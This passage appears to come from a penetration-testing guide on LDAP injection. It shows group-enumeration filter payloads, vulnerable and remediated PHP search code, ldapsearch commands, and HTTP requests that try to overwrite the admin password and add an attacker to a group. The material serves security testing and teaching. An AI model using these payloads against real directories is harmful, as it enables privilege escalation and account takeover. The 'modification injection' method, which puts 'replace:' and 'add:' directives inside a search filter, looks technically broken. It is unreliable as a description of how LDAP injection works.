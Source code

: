    - Look for group members (e.g., admin users) or LDAP attributes.
   - Test: `*)(memberOf=*` to list all memberships.
4. Use ldapsearch to simulate:
   ```bash
   ldapsearch -x -h ldap.example.com -b "dc=example,dc=com" "(memberOf=cn=admins,dc=example,dc=com)" cn
   ```

**Example Vulnerable Code (PHP)**:
```php
$filter = "(uid=$query)";
ldap_search($ldap, "dc=example,dc=com", $filter);
```
Test: `?query=*)(memberOf=cn=admins,dc=example,dc=com`
Result: Returns admin group members.

**Example Secure Code (PHP)**:
```php
$query = preg_replace('/[^a-zA-Z0-9]/', '', $query);
$filter = "(uid=$query)";
ldap_search($ldap, "dc=example,dc=com", $filter, ["uid"]);
```
Test: No group data.

**Remediation**:
- Restrict attribute access:
  ```php
  ldap_search($ldap, "dc=example,dc=com", $filter, ["uid", "cn"]);
  ```
- Deny group queries:
  ```php
  if (strpos($filter, 'memberOf') !== false) die("Invalid query");
  ```

**Tip**: Save group membership data in a report.

### 7. Test for LDAP Modification Injection

**Objective**: Verify if LDAP injection can modify directory entries (e.g., user attributes).

**Steps**:
1. Identify inputs that may trigger LDAP write operations (e.g., profile update forms).
2. Inject modification payloads:
   - Use Burp:
     ```http
     POST /update HTTP/1.1
     Host: example.com
     Content-Type: application/x-www-form-urlencoded
     user=admin)(&(uid=admin)(replace: userPassword=newpass))
     ```
   - Use HTTPie:
     ```bash
     http POST http://example.com/update user="admin)(&(uid=admin)(replace: userPassword=newpass))"
     ```
3. Check responses:
   - Look for success messages or attribute changes.
   - Test: `*)(add: memberUid=attacker)` to add group membership.
4. Verify changes:
   - Attempt login with modified credentials or check group membership.
5. Use ldapsearch to confirm schema:
   ```bash
   ldapsearch -x -h ldap.example.com -b "dc=example,dc=com" "(uid=admin)" userPassword
   ```
